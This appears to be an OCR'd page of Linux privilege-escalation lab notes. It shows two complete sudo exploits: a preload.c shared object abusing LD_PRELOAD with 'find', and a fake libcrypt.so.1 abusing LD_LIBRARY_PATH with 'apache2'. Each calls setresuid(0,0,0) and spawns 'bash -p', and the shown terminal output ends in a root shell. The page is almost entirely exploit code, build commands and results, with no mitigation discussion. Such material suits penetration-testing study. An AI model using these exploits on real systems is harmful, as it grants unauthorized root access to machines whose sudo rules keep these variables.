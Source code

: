 ```bash
user@debian:~/tools/sudo$ ls
library_path.c  preload.c
user@debian:~/tools/sudo$ cat preload.c 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

user@debian:~/tools/sudo$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
user@debian:~/tools/sudo$ cd

user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so find
root@debian:/home/user# whoami
root
```

### LD_LIBRARY_PATH 

```bash
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff3d5ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f612cd8f000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f612cb6b000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f612c931000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f612c715000)
        libc.so.6 => /lib/libc.so.6 (0x00007f612c3a9000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f612c1a4000)
        librt.so.1 => /lib/librt.so.1 (0x00007f612bf9c000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f612bd65000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f612bb60000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f612b938000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f612d24c000)
```

```bash
user@debian:~$ cat tools/sudo/library_path.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# whoami
root
```

---